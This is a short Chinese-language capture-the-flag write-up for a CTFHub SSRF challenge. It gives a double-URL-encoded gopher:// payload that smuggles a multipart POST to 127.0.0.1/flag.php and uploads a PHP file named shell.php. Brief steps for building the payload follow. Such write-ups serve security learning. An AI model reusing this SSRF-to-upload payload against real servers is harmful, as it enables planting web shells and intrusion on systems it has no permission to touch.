 # 知识点
gopher:// 上传文件

# 思路

payload
```
?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520315%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b6455b335a73cff5.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F101.0.4951.54%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b6455b335a73cff5.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17fe34cd7671102-02b48d69e6a348-977173c-1bcab9-17fe34cd7682d7%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520phpinfo()%253B%2520%253F%253E%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V--
```
先查看flag.php,发现可以上传文件<br />![image.png](./images/20231017_2354298626.png)<br />用file://查看源码，需要在主机本地上传非空文件<br />![image.png](./images/20231017_2354317848.png)<br />再用file://查看首页，可以执行curl<br />![image.png](./images/20231017_2354328285.png)<br />先为flag.php页面补充上传按钮<br />![image.png](./images/20231017_2354338713.png)<br />抓包<br />![image.png](./images/20231017_2354344550.png)<br />改host为127.0.0.1:80<br />![image.png](./images/20231017_2354351257.png)<br />将包进行一次url编码<br />![image.png](./images/20231017_2354374210.png)<br />再用python脚本将%0A修改为%0D%0A<br />![image.png](./images/20231017_2354381048.png)<br />再进行等二次url编码<br />![image.png](./images/20231017_2354394610.png)<br />使用gopher://上传文件，获得flag<br />![image.png](./images/20231017_2354419795.png)
